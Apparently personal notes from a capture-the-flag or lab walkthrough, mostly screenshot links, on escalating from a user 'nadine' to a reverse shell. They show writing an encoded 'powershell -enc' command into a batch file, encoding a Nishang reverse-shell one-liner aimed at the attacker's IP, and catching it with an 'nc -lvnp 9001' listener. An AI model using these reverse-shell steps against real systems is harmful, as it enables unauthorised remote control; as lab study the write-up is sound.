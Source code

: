 ![[Pasted image 20241215210810.png]]

Basically following the steps from this searchsploit thing 

![[Pasted image 20241216183721.png]]

![[Pasted image 20241216182901.png]]
Instead of step 3...

from nadine's access:

`echo powershell -enc cABphdksdhddsgvsdkdhkv > pleasesub.bat`

![[Pasted image 20241216183926.png]]

Starting tcpdump from parrot box:

![[Pasted image 20241216183957.png]]

Execute `pleasub.bat` from nadine's access:

![[Pasted image 20241216184105.png]]

Can also execute command from the console

![[Pasted image 20241216184548.png]]
Now let's get a #reverseshell using #nishang [[Nishang]]
https://github.com/samratashok/nishang/tree/master/Shells
We want `Invoke-PowershellTcpOneLine.ps1`

![[Pasted image 20241216184814.png]]
We want the one-liner so that it can be encoded. 

Have to choose which one to use so using this one:
![[Pasted image 20241216185233.png]]
Change IP to attacker machine IP address and pick a port like 9001

Encode it. 

`cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0`

![[Pasted image 20241216185458.png]]

Now executing this encoded command from nadine's initial access shell. 

![[Pasted image 20241216185558.png]]

Start #netcat listener on parrot 

`nc -lvnp 9001`

![[Pasted image 20241216185645.png]]

Run pleasesub.bat from website console
